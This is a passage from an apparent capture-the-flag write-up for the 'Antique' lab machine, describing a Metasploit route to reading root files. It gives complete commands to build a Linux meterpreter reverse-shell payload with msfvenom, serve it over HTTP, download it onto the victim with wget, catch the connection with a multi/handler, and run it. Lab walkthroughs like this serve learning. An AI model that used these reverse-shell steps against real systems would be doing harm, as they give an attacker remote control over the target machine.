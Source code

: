 ![error_log](assets/antique_screenshots/error_log.png)

### Metasploit root file read

The benifit of the metasploit route is not having to tunnel the CUPS service, as the module runs in the current meterpreter session.

Create the meterpreter shell with msfvenom.

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.54 LPORT=4444 -f elf > met
```

Locally host then upload the meterpreter payload to the victim.

```bash
sudo python -m http.server 80
```

```bash
wget http://10.10.14.54/met
```

Start a metasploit multihandler.

```bash
msfconsole -q -x "use exploit/multi/handler; set paylaod linux/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT 4444; run -j"
```

Run the meterpreter payload on the victim.

```bash
chmod +x met; ./met &
```
